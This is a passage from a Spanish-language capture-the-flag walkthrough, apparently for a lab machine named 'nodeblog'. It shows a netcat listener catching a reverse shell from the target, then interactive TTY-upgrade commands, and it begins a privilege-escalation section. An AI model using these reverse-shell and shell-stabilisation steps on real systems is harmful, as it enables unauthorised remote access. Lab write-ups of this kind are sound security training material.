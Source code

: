 ```
# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.178.26] 57026
bash: cannot set terminal process group (859): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /home/admin/.bashrc: Permission denied
admin@nodeblog:/opt/blog$ whoami
whoami
admin
```

Vamos a `realizar` el `tratamiento` a la `TTY`, para ello obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
## Privilege Escalation

No nos deja entrar al directorio `/home` por `falta` de `permisos`, sin embargo como es nuestro directorio podemos `darle` los `permisos` que queramos

```
admin@nodeblog:/home$ ls -l
ls -l
total 0
drw-r--r-- 1 admin admin 220 Jan  3  2022 admin
admin@nodeblog:/home$ chmod 755 admin
chmod 755 admin
```

`Entramos` al `directorio`
